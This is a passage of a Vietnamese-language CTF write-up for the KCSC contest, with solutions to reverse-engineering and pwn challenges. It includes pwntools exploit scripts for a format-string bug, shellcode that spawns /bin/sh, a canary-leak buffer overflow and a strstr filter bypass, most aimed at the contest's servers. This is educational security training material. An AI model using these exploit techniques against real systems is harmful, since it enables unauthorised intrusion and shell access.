        Src[0] = (int)sub_FD133E;
        v4 = 0x68;
        v5[4] = 0xC3;
        j_memcpy(v5, Src, 4u);
        dwSize = 6;
        lpAddress = j_strcmp;
        v7 = VirtualProtect(j_strcmp, 6u, 0x40u, flOldProtect);
        return j_memcpy(lpAddress, &v4, dwSize);
    }

    return result;
}
```

Chương trình có gọi hàm antidebug **`IsDebuggerPresent`**. Chúng ta có thể đổi trạng thái của cờ ZF để đi tiếp vào trong.   

```c
Src[0] = (int)sub_FD133E;
v4 = 0x68;
v5[4] = 0xC3;
j_memcpy(v5, Src, 4u);
```

Sau 4 lệnh phía trên, chúng ta hãy chú ý tới các giá trị này trong stack


Đây chính là một đoạn mã assembly nhỏ 

```nasm
push sub_FD133E
ret
```

Tiếp theo, chương trình gọi **`VirtualProtect`** thay đổi lớp bảo vệ của vùng nhớ với lần lượt 4 đối số: 

1. j_strcmp: Địa chỉ bắt đầu của vùng nhớ 
2. 6: Kích thước ảnh hưởng của vùng nhớ. Ở đây, vùng nhớ bị thay đổi sẽ từ **`j_strcmp`** → **`j_strcmp + 6`**
3. 0x40u: **`PAGE_EXECUTE_READWRITE`**, kích hoạt quyền thực thi, đọc, viết cho vùng nhớ  
4. flOldProtect: Con trỏ trỏ tới biến lưu quyền truy cập cũ của vùng nhớ. 

> Đọc thêm thông tin ở https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect

Khi chạy nốt các dòng lệnh còn lại, click vào **`j_strcmp`**, ta sẽ thấy **`push 0xFD133E`** và **`ret`**. Điều đó đồng nghĩa với việc gọi hàm **`sub_FD133E`**. Nói tóm lại, khi chúng ta gọi hàm **`strcmp`**, nó sẽ thực thi hàm **`sub_FD133E`**



Click vào hàm **`sub_FD133E`,** nó lại tiếp tục nhảy tới hàm **`sub_FD61D0`.** Đây là mã giả của nó 

```c
int __cdecl sub_FD61D0(char *input, char *cmpInput)
{
    size_t j; // [esp+D0h] [ebp-78h]
    size_t v4; // [esp+DCh] [ebp-6Ch]
    unsigned int i; // [esp+E8h] [ebp-60h]
    char newCmpInput[44]; // [esp+F4h] [ebp-54h] BYREF
    char buf[32]; // [esp+120h] [ebp-28h] BYREF

    __CheckForDebuggerJustMyCode(&unk_FDD015);
    buf[0] = 7;
    strcpy(&buf[1], "|");
    buf[3] = 7;
    buf[4] = 0x7F;
    buf[5] = 0x77;
    buf[6] = 0x78;
    buf[7] = 1;
    buf[8] = 0;
    buf[9] = 0x73;
    buf[0xA] = 7;
    strcpy(&buf[0xB], "u");
    buf[0xD] = 2;
    buf[0xE] = 3;
    buf[0xF] = 0x73;
    buf[0x10] = 7;
    buf[0x11] = 7;
    buf[0x12] = 0;
    buf[0x13] = 0xC;
    buf[0x14] = 7;
    buf[0x15] = 0x72;
    buf[0x16] = 0x7B;
    buf[0x17] = 0x70;
    buf[0x18] = 4;
    buf[0x19] = 0x7F;
    buf[0x1A] = 3;
    buf[0x1B] = 4;
    buf[28] = 7;
    strcpy(&buf[0x1D], "q");
    buf[31] = 4;
    j_memset(newCmpInput, 0, 36u);
    for ( i = 0; i < 32; ++i )
    {
        newCmpInput[i] = buf[i] ^ cmpInput[i];
    }

    v4 = strlen1(newCmpInput);
    for ( j = 0; j < v4; ++j )
    {
        if ( input[j] < newCmpInput[j] )
        {
            return -1;
        }

        if ( input[j] > newCmpInput[j] )
        {
            return 1;
        }
    }

    return 0;
}
```

Tới đây thì rõ ràng rồi, **`cmpInput`** bị xor với mảng **`buf`** rồi mới được đem đi so sánh với **`input`** của chúng ta. Mình chỉ cần xor ngược lại là có thể giải được bài toán và thu được flag **`KCSC{function_h00k1ng}`**.

```python
def unShiftRow(blk):
    blk[0] = blk[0][0 : ] + blk[0][ : 0]
    blk[1] = blk[1][3 : ] + blk[1][ : 3]
    blk[2] = blk[2][2 : ] + blk[2][ : 2]
    blk[3] = blk[3][1 : ] + blk[3][ : 1]
    return blk

def unShiftCol(blk):
    cols = []
    unshifted_col = [[0, 0, 0, 0], [0, 0, 0, 0], [0, 0, 0, 0], [0, 0, 0, 0]]

    # get col
    for col in range(4):
        cols.append([blk[row][col] for row in range(4)])

    # unshifted col
    unshifted_col[0] = cols[0][0 : ] + cols[0][ : 0]
    unshifted_col[1] = cols[1][3 : ] + cols[1][ : 3]
    unshifted_col[2] = cols[2][2 : ] + cols[2][ : 2]
    unshifted_col[3] = cols[3][1 : ] + cols[3][ : 1]

    for i in range(4):
        for j in range(4):
            blk[i][j] = unshifted_col[j][i]

    return blk

def unSwapBit(blk):
    for i in range(4):
        for j in range(4):
            blk[i][j] = ((blk[i][j] & 0x0F) << 4) | ((blk[i][j] & 0xF0) >> 4)
    return blk 

def unXor(blk, round): 
    for i in range(4):
        for j in range(4):
            blk[i][j] ^= (round + 0x55)

def main():
    cmpInput = "FDA6FF91ADA0FDB7ABA9FB91EFAFFAA2" 
    buf = [7 , 124 , 0 , 7 , 127 , 119 , 120 , 1 , 0 , 115 , 7 , 117 , 0 , 2 , 3 , 115 , 7 , 7 , 0 , 12 , 7 , 114 , 123 , 112 , 4 , 127 , 3 , 4 , 7 , 113 , 0 , 4]
    newCmpInput = ""
    for i in range(len(cmpInput)):
        newCmpInput += chr(buf[i] ^ ord(cmpInput[i]))

    elements = [int(newCmpInput[i : i+2], 16) for i in range(0, len(newCmpInput), 2)]
    block = [elements[i : i+4] for i in range(0, len(elements), 4)]

    round = 99
    while(round >= 0):
        unXor(block, round)
        unSwapBit(block)
        unShiftCol(block)
        unShiftRow(block)

        round -= 1

    flag = "KCSC{"
    for i in range(4):
        for j in range(4):
            flag += chr(block[i][j])
    flag += "}"
    print(flag)

if __name__ == "__main__":
    main()
```

## pwn/A gift for pwners


* 40 solves / 100 pts
* **Given files:** [gift](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EX1Y8Dum-21OjKYxOWeahqsBx8Jv0sr4Pl6OJ-wfv2s2pQ?e=ImvXPj)
* **Description:** Just find flag in file, no need netcat


**Solution**

Load file vào IDA64, dùng shortcut Shift + F12 để kiểm tra các string, ta có được phần đầu và phần cuối của flag là **`KCSC{A_gift_`** và **`pwners_0xdeadbeef}`**. 

Kiểm tra hàm **`secret`**, ta có được phần giữa của flag là **`for_the_`**. 

Flag đầy đủ của bài toán là **`KCSC{A_gift_for_the_pwners_0xdeadbeef}`**

## pwn/Format


* 0 solve / 500 pts / by Nuuuuuuuu
* **Given files:** [format.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EbjKR1jipvdJm4ZWwXLa2BoBNfwJJSKf2qcXOf8r3JsC7w?e=mpBn7N)
* **Description:** You don't have to do anything, i will printf the flag for you^^\
**`nc 103.162.14.116 12001`**


**Solution**

Load file vào IDA64, dễ thấy có lỗ hổng FMT ở dòng **`printf(buf)`**

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char buf[40]; // [rsp+10h] [rbp-30h] BYREF
    unsigned __int64 v5; // [rsp+38h] [rbp-8h]

    v5 = __readfsqword(0x28u);
    puts("Do you want to get flag^^");
    buf[read(0, buf, 0x25uLL)] = 0;
    printf(buf);
    system(cmd);
    return 0;
}
```

Chương trình gọi hàm **`system`** với **`cmd`** là một câu lệnh echo. Ý tưởng để giải bài này sẽ là tận dụng bug FMT viết thêm chuỗi **`;sh`** sau câu lệnh đó để lấy shell. 

```python
from pwn import *

elf = ELF("./format", checksec = False)

# p = process(elf.path)
p = remote("103.162.14.116", 12001)
pause()

write_addr = 0x4040B5
sh = 0x68733b # ;sh 

pay = f"%{sh}c%10$n".encode().ljust(0x10, b"\x00") + p64(write_addr)
p.sendline(pay)

p.interactive()
# KCSC{F1rs1_Pr0b13m_w1Th_pR1Ntf}
```

## pwn/pwn1


* 0 solve / 500 pts
* **Given files:** [pwn1](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EeNv7B6LlU1Cm8xv11c8j14B53DaHhiI_rNmTx9wNTGQrg?e=kV9ns4)
* **Description:** every things start with assembly\
**`nc 103.162.14.116 20001`**


**Solution**

Sử dụng IDA64 decompile chương trình, ta thu được mã giả của hàm **`main`** như sau 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+0h] [rbp-10h]

  setup(argc, argv, envp);
  buf = mmap((void *)0x1337000, 0x1000uLL, 7, 33, -1, 0LL);
  puts("Let warm up a bit with shellcode , shall we?");
  read(0, buf, 0xCuLL);
  puts("OK let see how your shellcode work!!!!");
  ((void (*)(void))buf)();
  return 0;
}
```

Ta thấy, chương trình **`mmap`** 1000 byte, bắt đầu tại địa chỉ **`0x1337000`** với full quyền rwx và yêu cầu chúng ta viết shellcode. 

Vấn đề ở đây là chúng ta chỉ nhập được tối đa 12 byte. Vậy nên không thể viết trực tiếp shellcode lấy shell như thông thường được. Mình sẽ mở rộng kích thước số byte được nhập ra và gọi lại hàm **`read`**. 

```python
from pwn import *
import time 

exe = ELF("./pwn1") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld.so.6")

context.log_level = "debug"
context.arch = "amd64"
context.binary = exe 

# p = process(exe.path)
p = remote("103.162.14.116", 20001)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0]) 

shellcode1 = asm("""
    mov edx, 0xff
    add r13, 87 
    jmp r13
""")

p.sendafter("shall we?\n", shellcode1)

shellcode2 = asm("""
    mov rax, 29400045130965551
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
""")

time.sleep(2)

p.sendline(shellcode2)

p.interactive() 
# KCSC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}
```

## pwn/Simple Overflow


* 2 solves / 496 pts / by Nuuuuuuuu
* **Given files:** [simple_overflow.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EUlfGWaVWGlCikIA45vdnVQBmb8jzs-1yK8KiWvShSwOiQ?e=tm96Lp)
* **Description:** simple description since it’s simple overflow\
**`nc 103.162.14.116 12004`**


**Solution**

Chúng ta có thể thấy sự xuất hiện của lỗ hổng BOF ở hàm **`save_data`** tại hàm **`read`** 

```c
unsigned __int64 __fastcall save_data(const char *a1)
{
  int i; // [rsp+14h] [rbp-4Ch]
  unsigned __int64 v3; // [rsp+18h] [rbp-48h]
  __int64 buf[2]; // [rsp+20h] [rbp-40h] BYREF
  char s[8]; // [rsp+30h] [rbp-30h] BYREF
  __int64 v6; // [rsp+38h] [rbp-28h]
  __int64 v7; // [rsp+40h] [rbp-20h]
  __int64 v8; // [rsp+48h] [rbp-18h]
  unsigned __int64 v9; // [rsp+58h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  *(_QWORD *)s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  buf[0] = 0LL;
  buf[1] = 0LL;
  snprintf(s, 0x20uLL, "Hi %s, let me keep your data\n", a1);
  printf("%s", s);
  puts("How many data you want to save?");
  v3 = get_long();
  fflush(stdin);
  for ( i = 0; v3 > i; ++i )
  {
    puts("Data: ");
    read(0, buf, 256uLL);
    strcpy(saved_data, (const char *)buf);
    puts(saved_data);
  }
  puts("Your data is saved");
  return v9 - __readfsqword(0x28u);
}
```

Chúng ta chỉ cần yêu cầu nhập 2 lần

1. Lần đầu sẽ leak giá trị canary
2. Lần thứ hai sẽ overwrite retaddr 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./simple_overflow") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld-2.35.so")

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"
context.binary = exe 

# p = process(exe.path)
p = remote("103.162.14.116", 12004)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0])

def sa(*args):
    return p.sendafter(args[0], args[1]) 

def rl(): 
    return p.recvline()

def GDB():
    gdb.attach(p, gdbscript = """
        b *save_data+0x00eb
        continue
    """)
    pause() 

# GDB()

sla("name: \n", b"hacker")
sla("save?\n", b"2") 

pay1 = b"A" * 7 * 8 + b"A"
sa("Data: \n", pay1)

p.recvuntil(pay1) 
canary = u64(b"\x00" + p.recv(7))
log.info(f"canary = 0x%x" % canary)

fakerbp = 0xdeadbeef
win = exe.symbols["win"]
ret = 0x401526
pay2 = b"B" * 7 * 8 + p64(canary) + p64(fakerbp) + p64(ret) + p64(win)
sa("Data: \n", pay2)

p.interactive() 

# KCSC{Y0u_g0T_1h3_Sup3R_s3Cr31_F14g}
```

## pwn/strstr


* 6 solves / 400 pts / by Wan
* **Given files:** 
  * [chall](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EcOEg_DwZalImTfKKKYe-PQB5pYivg-yZved4VwaC8E7vQ?e=UzTYVN)
  * [chall.c](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EYeP36OiA_ZJvskdROPzYv8BCAwCVSnsiYLFV8IQXL-WfQ?e=eA3FL8)
* **Description:** simple description since it’s simple overflow\
**`nc 103.162.14.116 12005`**


**Solution**

Đề bài cho chúng là luôn source code, quan sát kỹ thì thấy có bug BOF để ret2win. Nhưng ở hàm **`filter`** có check 1 số string 

```c
if(strstr(buf, "v\x11@") || strstr(buf, "w\x11@") || strstr(buf, "z\x11@") != NULL)
    {
        printf("bypass strstr pls");
        exit(0);
    }
```

Địa chỉ hàm **`win`** nằm ở **`0x401186`** nghĩa là chỉ bị trùng 2 byte **`\x11@`** nên ta sẽ không bị kill. Chương trình có lỗi SIGSEGV do stack layout chưa được căn chỉnh. Vì vậy mình nhảy luôn vào **`win + 4`** để tránh việc **`push rbp`** vào stack. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld-2.35.so")

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"
context.binary = exe 

p = process(exe.path)
# p = remote("localhost", 1337)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0])

def sa(*args):
    return p.sendafter(args[0], args[1]) 

def rl(): 
    return p.recvline()

def GDB():
    gdb.attach(p, gdbscript = """
        b* main+127
        continue
    """)
    pause() 

# GDB()

win = exe.symbols["win"] + 4
pay = b"A"*7*8 + p64(win) 
sa(b"play\n", pay)

p.interactive()
# KCSC{bypass_strstr_by_null_byte}
```

# List Challenges 
rev/mission: impossible


* 0 solve / 500 pts / by sonx
* **Given files:** [rev_mission_impossible.rar](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EZckKwbqg-FMrk8-KWf740kBqOaaqriUc28UKFnCsbalvw?e=awVmt4)
* **Description:** Defeat all the adversaries to protect your base. We're relying
